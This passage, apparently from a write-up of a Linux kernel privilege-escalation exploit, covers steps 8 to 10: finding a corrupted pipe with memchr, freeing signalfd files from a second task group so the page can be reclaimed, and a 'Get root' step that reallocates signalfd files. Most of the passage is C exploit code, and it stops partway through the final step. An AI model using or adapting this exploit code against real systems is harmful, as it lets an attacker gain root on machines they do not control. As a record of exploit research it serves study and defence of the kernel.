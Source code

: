 **@step(8): Locate the corrupted pipe**

Now, we need to locate the corrupted pipe. Since our original buffer consisted of 4096 zeros, if `memchr(buff, 0xFF, PAGE_SIZE)` returns a non-null value, it indicates that we have found the pipe:

```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_1, tsk)
	task_ctl(tsk, TASK_FIND_FIFO);

// -------------------- [ Tasks in group 1 ] ---------------------

for (int i = 0; i < NUM_FIFO; i++) {
	read(fifo_fd_A[i], buff, PAGE_SIZE);
	if (memchr(buff, 0xFF, PAGE_SIZE) != NULL) {
		evil_fifo = fifo_fd_A[i];
		break;
	}
}
```

**@step(9): Free some signalfd files**

Once the corrupted pipe is identified, we free some signalfd files from task group 2. We will reallocate them in the task that controls the corrupted pipe.

>This is not strictly necessary, but very useful to avoid some annoying IPC between the task that controls the victim pipe, and the tasks that managed to reclaim the victim page with files.

```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_2, tsk)
	task_ctl(tsk, TASK_FREE_SIGNALFD);

// -------------------- [ Tasks in group 2 ] ---------------------

for (int i = 0; i < NUM_SIGNALFD_FILES; i++)
	if (i % 8 == 0)
		close(sig_fd[i]);
```

**@step(10): Get root**

This is the last step. We first reallocate some signalfd files from the task that controls the corrupted pipe:

```c
// ------------------------ [ main ] --------------------------

for_each_task(tasks.group_1, tsk)
	task_ctl(tsk, TASK_GET_ROOT);

// -------------------- [ Tasks in group 1 ] ---------------------

if (memcmp(old_page, buff, PAGE_SIZE)) {

	printf("identified in task %d\n", getpid());

	for (int i = 0; i < NUM_SIGNALFD_FILES; i++)
		sig_fd[i] = alloc_signalfd(-1);
```
